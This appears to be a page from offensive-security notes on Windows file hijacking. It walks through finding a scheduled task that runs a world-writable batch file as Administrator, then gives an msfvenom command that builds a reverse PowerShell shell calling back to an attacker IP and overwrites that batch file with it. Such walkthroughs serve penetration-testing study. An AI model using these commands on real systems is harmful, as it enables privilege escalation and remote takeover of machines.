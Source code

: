 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Hijacks

Hijacking in Windows refers to **replacing or modifying an executable file, library, or script that a trusted process or scheduled mechanism automatically loads**. When the file is writable by a lower-privileged user, it can be overwritten with malicious code. Upon execution by the privileged process or task, the attacker’s code runs in the same security context, often leading to privilege escalation or persistence. This technique applies to multiple file types: service binaries (`.exe`), dynamic-link libraries (`.dll`), and executable scripts such as batch files (`.bat`, `.cmd`) or PowerShell scripts (`.ps1`). The underlying principle remains the same—leveraging weak file permissions to replace a trusted component that Windows or applications expect to execute.

## Batch Script Hijack

A batch file (`.bat` or `.cmd`) is a **plain-text script that executes a sequence of Windows commands**. It is used to automate tasks such as file management, program execution, or system configuration. Because batch files run in the context of the invoking user or process, they can be abused for persistence, privilege escalation, or post-exploitation if a writable file is executed by a privileged service or scheduled task.

{% code overflow="wrap" %}
```powershell
# List the file's contents
> type c:\tasks\my_job
<SNIP>

<Interval>PT1M</Interval> # Runs every minute
<Exec>
<Command>C:\Windows\System32\cmd.exe</Command>
<Arguments>/c C:\Windows\Logs\my_task.bat</Arguments> # Executes this file
</Exec>
<Principals>
<UserId>Administrator</UserId> # Runs as Administrator

<SNIP>

# Check the batch file's permissions
> icacls c:\windows\logs\my_task.bat
c:\windows\logs\my_task.bat Everyone:(RX,W) # File is writable
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Create a revershe shell payload
msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.49.117 LPORT=80 > my_task.bat
```
{% endcode %}
